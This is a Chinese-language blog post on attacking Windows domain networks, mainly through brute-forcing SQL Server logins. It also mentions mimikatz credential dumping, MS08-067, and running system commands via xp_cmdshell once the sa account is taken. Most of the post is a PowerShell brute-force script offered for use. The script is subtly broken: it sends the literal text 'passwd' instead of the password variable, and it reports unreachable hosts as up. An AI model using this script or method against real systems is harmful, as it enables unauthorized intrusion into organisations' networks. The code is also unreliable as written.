 ```yaml
---
layout: post
title: 内网域渗透-sqlserver爆破
author: alpha1e0
categories: 安全技术
tages: 安全技术
---
```


## 0x00内网渗透思路

内网渗透以取得域控账户为最终目的。常规思路：入侵某些服务器或主机，通过mimikatz倒域账户，查找敏感信息（如邮件）查找其他域账户等，反复迭代。

入侵服务器常规的思路：

1. 通过弱口令破解操作系统登录口令。
2. 通过MS08-067等漏洞渗透。
3. 通过web漏洞渗透web服务器。
4. 通过弱口令破解sqlserver登录口令。

## 通过弱口令破解sqlserver登录口令。
由于域环境中补丁统一部署、域账户复杂度限制，因此1和2两种思路很难实施。在实际操作中最有效的石sqlserver的弱口令和web服务器渗透。

本文介绍sqlserver弱口令破解。在获取sa账户后可以使用“exec xp_cmdshell”直接执行Administrator权限的命令（一般情况下sa账户和administrator账户权限相同）。

[这篇文章][1]介绍了通过LDAP获取内网sqlserver服务器的方法，可获取一个sqlserver列表。我写了一个脚本能够对这个列表进行暴力破解。

破解脚本如下：

	Write-Host "[-] Usage: brute.ps1 server.txt user.txt passwd.txt"

	$serverFile = Get-content $args[0]
	$userFile = Get-content $args[1]
	$passwdFile = Get-content $args[2]

	$serverList = @()
	$result = @()
	
	Write-Host "[-] Finding alive server--------------------------."
	Foreach ($server in $serverFile) {
		$pos = $server.Indexof(".")
		$serverName = $server.Substring(0,$pos)
		if((Test-Connection -Cn $serverName -BufferSize 32 -Count 1 -ea 0 -quiet)) {
			Write-Host "[+] Up $server"
			$serverList += $server
		} else {
			Write-Host "[+] Up $server"
		}
	}

	Write-Host "[-] Begin burting--------------------------."
	Foreach ($user in $userFile) {
		Foreach ($passwd in $passwdFile) {
			Foreach ($server in $serverList) {
				$con = New-Object System.Data.SqlClient.SqlConnection
				$con.ConnectionString = "Server=$server;Database=master;User ID='$user';Password='passwd';Connect Timeout=2;"
				Try {
					$con.Open()
					Write-Host "[+] Success: $server; $user; $passwd."
					$result += "$server; $user; $passwd"
				}
				Catch {
					Write-Host "[+] Failed: $server; $user; $passwd."
				}
			}
		}
	}

	$result | out-file "result.txt"

[1]: http://drops.wooyun.org/pentesting/2125